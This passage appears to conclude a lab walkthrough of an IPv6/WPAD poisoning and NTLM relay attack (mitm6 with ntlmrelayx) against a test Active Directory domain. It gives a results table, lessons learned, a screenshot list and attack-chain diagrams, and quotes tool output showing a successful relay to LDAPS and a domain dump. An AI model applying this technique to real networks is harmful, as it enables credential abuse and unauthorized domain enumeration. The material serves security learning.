| DNS poisoning | spoofed `evil.corp`, `wpad`, `fakewpad` responses | Successful |
| WPAD | `/wpad.dat` requests | Successful |
| HTTP interception | ntlmrelayx received client connections | Successful |
| NTLM authentication | `EVIL/CTO$` / `EVIL/TYRELL` | Successful |
| LDAPS relay | `against ldaps://192.168.56.10 SUCCEED` | Successful |
| LDAP enumeration | `Enumerating relayed user's privileges` | Successful |
| Domain enumeration | `Dumping domain info for first time` | Successful |
| Loot generation | `Domain info dumped into lootdir!` | Successful |

---

# 32. Key Takeaways

The most important lessons from this lab are:

1. **IPv6 is part of the Windows attack surface.**
2. **An attacker does not necessarily need the user's password to abuse NTLM authentication.**
3. **WPAD can provide an authentication trigger in Windows environments.**
4. **NTLM relay forwards authentication rather than cracking credentials.**
5. **LDAPS exposes Active Directory functionality through LDAP, but TLS alone does not eliminate every NTLM relay scenario.**
6. **A successful relay should be analyzed according to the privileges of the relayed identity.**
7. **The presence of `SUCCEED` followed by domain enumeration is stronger evidence than merely seeing an incoming HTTP request.**
8. **`Domain info dumped into lootdir!` confirms that the LDAP enumeration stage produced usable output.**
9. **`All targets processed!` does not mean the poisoning stage failed.**
10. **The mitm6 attack and the earlier SMB relay attack should be treated as separate attack paths.**

---

# 33. Screenshots Used

The walkthrough uses the following lab evidence:

```text
Images/
├── mitm6(2).png
├── ntlmrelay(2).png
├── ntlmrelay2(1).png
├── lootme(1).png
├── lootme-files(1).png
├── domaim-users(1).png
├── domain-computers-accounts(1).png
├── domain-groups(1).png
├── domain-password-polict(1).png
└── domain-users-by-group-policy(1).png
```

If your actual repository filenames contain spaces or different capitalization, update the Markdown image paths to match the files exactly.

---

# 34. Final Attack Summary

```text
                    EVIL.CORP
                       |
             +---------+---------+
             |                   |
           DC1                  Clients
      192.168.56.10       CTO / CYDECK
             ^                   |
             |                   |
             |            IPv6 poisoning
             |                   |
             |                mitm6
             |                   |
             |              DNS/WPAD
             |                   |
             |              HTTP/NTLM
             |                   |
             +------------ ntlmrelayx
                              |
                              |
                         LDAPS :636
                              |
                              v
                         Active Directory
                              |
                              v
                     Domain Enumeration
                              |
                              v
                           lootme/
```

**Final demonstrated outcome:**

```text
IPv6/DNS/WPAD poisoning
        ↓
NTLM authentication interception
        ↓
NTLM relay to DC1 LDAPS
        ↓
Successful LDAP authentication
        ↓
Domain enumeration
        ↓
Domain information dumped to lootme/
```
